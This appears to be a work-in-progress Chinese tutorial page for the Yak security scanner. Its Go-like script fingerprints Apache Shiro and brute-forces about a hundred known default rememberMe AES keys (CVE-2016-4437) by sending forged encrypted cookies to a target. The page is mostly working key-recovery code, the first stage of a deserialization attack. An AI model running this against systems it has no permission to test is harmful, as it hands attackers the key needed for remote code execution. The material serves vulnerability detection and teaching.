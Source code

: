 ```yaml
---
sidebar_position: 4
---
```


# Shiro CVE-2016-4437（WIP）

阅读本文前，请先确保已经熟悉 [ThinkPHP-5.0.25-RCE](/products/best-practice/thinkphp-case) 中相关内容

本篇中将会涉及到 Shiro 这类比较复杂的漏洞检测，我们将完全通过 `Yak` 内部的模块完成该模块

:::caution Work In Progress

更详细的编码教程与解读我们将在后续补充

:::

## 原代码

```go
log.setLevel("info")
isHttps = cli.Bool("https")

// 构建 shiro 基础请求
baseFreq := fuzz.HTTPRequest(`GET / HTTP/1.1
Host: example.com
Connection: close

`)[0].FuzzHTTPHeader("Host", "cybertunnel.run:8080")

// 发送数据包，取一下指纹结果
result = baseFreq.FuzzCookie("rememberMe", "{{rs(10)}}").ExecFirst(
    httpool.https(isHttps), httpool.redirectTimes(4),
)[0]
die(result.Error)

url, reqRaw, rspRaw = result.Url, result.RequestRaw, result.ResponseRaw

// 检查指纹
headers, body := str.SplitHTTPHeadersAndBodyFromPacket(rspRaw)
if !str.MatchAnyOfSubString(headers, "rememberMe=deleteMe;") {
    die("no shiro detected")
}

log.info("shiro on %v detected", url)
log.info("start to check key")

// 指纹检测工程，接下来准备猜 key
keys = [
    "kPH+bIxk5D2deZiIxcaaaA==",
    "4AvVhmFLUs0KTA3Kprsdag==",
    "Z3VucwAAAAAAAAAAAAAAAA==",
    "fCq+/xW488hMTCD+cmJ3aQ==",
    "0AvVhmFLUs0KTA3Kprsdag==",
    "1AvVhdsgUs0FSA3SDFAdag==",
    "1QWLxg+NYmxraMoxAXu/Iw==",
    "25BsmdYwjnfcWmnhAciDDg==",
    "2AvVhdsgUs0FSA3SDFAdag==",
    "3AvVhmFLUs0KTA3Kprsdag==",
    "3JvYhmBLUs0ETA5Kprsdag==",
    "r0e3c16IdVkouZgk1TKVMg==",
    "5aaC5qKm5oqA5pyvAAAAAA==",
    "5AvVhmFLUs0KTA3Kprsdag==",
    "6AvVhmFLUs0KTA3Kprsdag==",
    "6NfXkC7YVCV5DASIrEm1Rg==",
    "6ZmI6I2j5Y+R5aSn5ZOlAA==",
    "cmVtZW1iZXJNZQAAAAAAAA==",
    "7AvVhmFLUs0KTA3Kprsdag==",
    "8AvVhmFLUs0KTA3Kprsdag==",
    "8BvVhmFLUs0KTA3Kprsdag==",
    "9AvVhmFLUs0KTA3Kprsdag==",
    "OUHYQzxQ/W9e/UjiAGu6rg==",
    "a3dvbmcAAAAAAAAAAAAAAA==",
    "aU1pcmFjbGVpTWlyYWNsZQ==",
    "bWljcm9zAAAAAAAAAAAAAA==",
    "bWluZS1hc3NldC1rZXk6QQ==",
    "bXRvbnMAAAAAAAAAAAAAAA==",
    "ZUdsaGJuSmxibVI2ZHc9PQ==",
    "wGiHplamyXlVB11UXWol8g==",
    "U3ByaW5nQmxhZGUAAAAAAA==",
    "MTIzNDU2Nzg5MGFiY2RlZg==",
    "L7RioUULEFhRyxM7a2R/Yg==",
    "a2VlcE9uR29pbmdBbmRGaQ==",
    "WcfHGU25gNnTxTlmJMeSpw==",
    "OY//C4rhfwNxCQAQCrQQ1Q==",
    "5J7bIJIV0LQSN3c9LPitBQ==",
    "f/SY5TIve5WWzT4aQlABJA==",
    "bya2HkYo57u6fWh5theAWw==",
    "WuB+y2gcHRnY2Lg9+Aqmqg==",
    "kPv59vyqzj00x11LXJZTjJ2UHW48jzHN",
    "3qDVdLawoIr1xFd6ietnwg==",
    "ZWvohmPdUsAWT3=KpPqda",
    "YI1+nBV//m7ELrIyDHm6DQ==",
    "6Zm+6I2j5Y+R5aS+5ZOlAA==",
    "2A2V+RFLUs+eTA3Kpr+dag==",
    "6ZmI6I2j3Y+R1aSn5BOlAA==",
    "SkZpbmFsQmxhZGUAAAAAAA==",
    "2cVtiE83c4lIrELJwKGJUw==",
    "fsHspZw/92PrS3XrPW+vxw==",
    "XTx6CKLo/SdSgub+OPHSrw==",
    "sHdIjUN6tzhl8xZMG3ULCQ==",
    "O4pdf+7e+mZe8NyxMTPJmQ==",
    "HWrBltGvEZc14h9VpMvZWw==",
    "rPNqM6uKFCyaL10AK51UkQ==",
    "Y1JxNSPXVwMkyvES/kJGeQ==",
    "lT2UvDUmQwewm6mMoiw4Ig==",
    "MPdCMZ9urzEA50JDlDYYDg==",
    "xVmmoltfpb8tTceuT5R7Bw==",
    "c+3hFGPjbgzGdrC+MHgoRQ==",
    "ClLk69oNcA3m+s0jIMIkpg==",
    "Bf7MfkNR0axGGptozrebag==",
    "1tC/xrDYs8ey+sa3emtiYw==",
    "ZmFsYWRvLnh5ei5zaGlybw==",
    "cGhyYWNrY3RmREUhfiMkZA==",
    "IduElDUpDDXE677ZkhhKnQ==",
    "yeAAo1E8BOeAYfBlm4NG9Q==",
    "cGljYXMAAAAAAAAAAAAAAA==",
    "2itfW92XazYRi5ltW0M2yA==",
    "XgGkgqGqYrix9lI6vxcrRw==",
    "ertVhmFLUs0KTA3Kprsdag==",
    "5AvVhmFLUS0ATA4Kprsdag==",
    "s0KTA3mFLUprK4AvVhsdag==",
    "hBlzKg78ajaZuTE0VLzDDg==",
    "9FvVhtFLUs0KnA3Kprsdyg==",
    "d2ViUmVtZW1iZXJNZUtleQ==",
    "yNeUgSzL/CfiWw1GALg6Ag==",
    "NGk/3cQ6F5/UNPRh8LpMIg==",
    "4BvVhmFLUs0KTA3Kprsdag==",
    "MzVeSkYyWTI2OFVLZjRzZg==",
    "CrownKey==a12d/dakdad",
    "empodDEyMwAAAAAAAAAAAA==",
    "A7UzJgh1+EWj5oBFi+mSgw==",
    "YTM0NZomIzI2OTsmIzM0NTueYQ==",
    "c2hpcm9fYmF0aXMzMgAAAA==",
    "i45FVt72K2kLgvFrJtoZRw==",
    "U3BAbW5nQmxhZGUAAAAAAA==",
    "ZnJlc2h6Y24xMjM0NTY3OA==",
    "Jt3C93kMR9D5e8QzwfsiMw==",
    "MTIzNDU2NzgxMjM0NTY3OA==",
    "vXP33AonIp9bFwGl7aT7rA==",
    "V2hhdCBUaGUgSGVsbAAAAA==",
    "Z3h6eWd4enklMjElMjElMjE=",
    "Q01TX0JGTFlLRVlfMjAxOQ==",
    "ZAvph3dsQs0FSL3SDFAdag==",
    "Is9zJ3pzNh2cgTHB4ua3+Q==",
    "NsZXjXVklWPZwOfkvk6kUA==",
    "GAevYnznvgNCURavBhCr1w==",
    "66v1O8keKNV3TTcGPK1wzg==",
    "SDKOLKn2J1j/2BHjeZwAoQ==",
]

data = codec.DecodeHex(`aced0005737200326f72672e6170616368652e736869726f2e7375626a6563742e53696d706c655072696e636970616c436f6c6c656374696f6ea87f5825c6a3084a0300014c000f7265616c6d5072696e636970616c7374000f4c6a6176612f7574696c2f4d61703b78707077010078`)[0]

cookies = make([]string)
for _, key = range keys {
    for _, rs = range [
        codec.AESCBCEncrypt,
        codec.AESGCMDecrypt,
    ] {
        keyBytes = codec.DecodeBase64(key)[0]
        res, err := rs(keyBytes, data, nil)
        if err != nil {
            println(err)
            continue
        }
        cookieRaw = append(keyBytes, res...)
        base64dK := codec.EncodeBase64(cookieRaw)
        cookies = append(cookies, base64dK)
    }
}

println("start go fuzz rememberMe")
r, err := baseFreq.FuzzCookie("rememberMe", cookies).Exec(httpool.https(isHttps), httpool.size(3))
die(err)

keyFoundResult = var
for result = range r {
    if result.Error != nil {
        continue
    }
    header, body = str.SplitHTTPHeadersAndBodyFromPacket(result.ResponseRaw)
    if str.MatchAllOfSubString(header, "rememberMe=deleteMe") {
        continue
    }
    keyFoundResult = result
    break
}

// keyFoundResult
println(string(keyFoundResult.RequestRaw))
```